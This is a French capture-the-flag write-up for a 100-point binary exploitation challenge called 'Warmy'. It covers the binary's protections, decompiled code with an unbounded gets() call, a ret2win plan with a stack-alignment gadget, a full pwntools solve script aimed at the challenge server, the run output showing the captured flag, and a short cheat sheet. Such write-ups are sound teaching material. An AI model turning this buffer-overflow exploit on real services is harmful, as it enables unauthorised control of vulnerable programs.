

> **Informations du Challenge**
> * **Événement :** Kali Team CTF 2026
> * **Catégorie :** Pwn / Binary Exploitation
> * **Auteur :** JO0031
> * **Points :** 100 PTS
> * **Cible :** `chall.kali-team.online:10031`
> * **Flag :** `KaliTeam{4f879feb-a039-4053-9da1-5b8abdd4b0fc}`

---

## 1. Reconnaissance & Protections du Binaire

Analyse initiale des sécurités du binaire avec `checksec` :

```text
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
````

> **Constat des protections**
> 
> - **No Canary** : Aucune protection contre les débordements de tampon (_Buffer Overflow_).
>     
> - **No PIE** : Les adresses des fonctions du binaire sont **fixes** (non aléatoires).
>     
> - **NX (No-Execute)** : La pile est non-exécutable (nécessite de dériver le flux vers du code existant, type _ret2win_).
>     

## 2. Reverse Engineering (Ghidra)

La décompilation révèle deux fonctions clés : `vuln()` et `win()`.

### A. La fonction `vuln()`

```c
void vuln(void) {
  char local_48 [64];
  
  puts("Hola! ");
  gets(local_48); // ⚠️ VULNÉRABILITÉ MAJEURE
  return;
}
```

### B. La fonction cible `win()`

```c
void win(void) {
  int iVar1;
  FILE *__stream;
  
  __stream = fopen("flag.txt","r");
  if (__stream == (FILE *)0x0) {
    puts("Error: flag.txt not found.");
    exit(1);
  }
  printf("\nThe Flag: ");
  while( true ) {
    iVar1 = fgetc(__stream);
    if ((char)iVar1 == -1) break;
    putchar((int)(char)iVar1);
  }
  putchar(10);
  fclose(__stream);
  return;
}
```

## ⚡ 3. Analyse de la Vulnérabilité & Stratégie

> **Vulnérabilité : Buffer Overflow via `gets()`**
> 
> La fonction standard C `gets()` ne contrôle pas la longueur de la chaîne saisie. Elle lit jusqu'à rencontrer un saut de ligne (`\n`), permettant d'inonder le tampon `local_48` et d'écraser l'adresse de retour (`RIP`) sur la pile.

### Stratégie d'Exploitation (Ret2win) :

1. Calculer le rembourrage (_padding_) exact jusqu'à l'adresse de retour.
    
2. Grâce à l'absence de PIE, récupérer l'adresse fixe de la fonction `win()` (`0x401236`).
    
3. **Alignement de Stack 16-bytes (Contrainte System V AMD64 ABI)** :
    
    Les fonctions `printf` et `fgetc` dans `win()` utilisent des instructions SSE (`movaps`) qui provoquent un crash (_Segmentation Fault_) si le pointeur de pile `$RSP` n'est pas aligné sur un multiple de 16 octets lors du `call`.
    
    - **Solution :** Insérer un gadget `ret` (`0x40101a`) juste avant l'adresse de `win()`.
        

## 💻 4. Script d'Exploitation (Solve Script)

L’alignement du tampon généré par le compilateur GCC 13 plaçait le pointeur de retour à un offset exact de **64 octets** (optimisation du cadre de pile sans pointeur de frame `RBP`).

```python
#!/usr/bin/env python3
"""
Challenge: Warmy - Kali Team CTF 2026
Category: Pwn (Ret2win)
Author: JO0031
"""

from pwn import *

HOST = "chall.kali-team.online"
PORT = 10031

# 1. Chargement du binaire ELF
elf = ELF("./warmy")
win_addr = elf.symbols['win']

# 2. Recherche d'un gadget 'ret' pour aligner la stack sur 16-bytes
rop = ROP(elf)
ret_gadget = rop.find_gadget(['ret'])[0]

log.info(f"Adresse de win()  : {hex(win_addr)}")
log.info(f"Gadget ret        : {hex(ret_gadget)}")

# 3. Construction du Payload Ret2Win
offset = 64 # Offset exact pour écraser RIP

payload = flat(
    b"A" * offset,
    ret_gadget,  # Pad 8-byte ret gadget (Stack Alignment SSE/MOVAPS)
    win_addr     # Redirection du flux vers win()
)

# 4. Envoi au serveur distant
r = remote(HOST, PORT)
r.recvuntil(b"Hola!")
r.sendline(payload)

# 5. Récupération du Flag
print("\n[+] Reponse du serveur :")
print(r.recvall().decode(errors="ignore"))
```

## 🚩 5. Exécution & Capture du Flag

```bash
$ python3 wa.py
[*] Recherche de l'offset exact en cours...

[+] 🎉 SUCCÈS avec offset = 64 !
[+] Reponse du serveur :
! 

The Flag: KaliTeam{4f879feb-a039-4053-9da1-5b8abdd4b0fc}
```



## 📌 6. Cheat Sheet CTF : Ret2win & Alignement de Pile

> **Points clés à retenir sur les Ret2win x86_64**
> 
> 1. **Pourquoi `gets()` est banni ?**
>     
>     - Il ne prend aucun paramètre de taille max. À remplacer par `fgets(buf, size, stdin)`.
>         
> 2. **Pourquoi utiliser un gadget `ret` supplémentaire ?**
>     
>     - Sur architecture 64 bits (`x86_64`), la spécification ABI exige que `$RSP + 8` soit aligné sur 16 octets avant d'appeler des fonctions de la GLIBC (`printf`, `system`, etc.).
>         
>     - Si le binaire plante au milieu d'une fonction `win()` valide, ajouter un `ret` est la solution n°1.
>         
> 3. **Détermination rapide de l'offset :**
>     
>     - Utilité de `pwn cyclic 100` sous GDB pour trouver l'offset exact au crash (`cyclic -l <valeur_RSP>`).
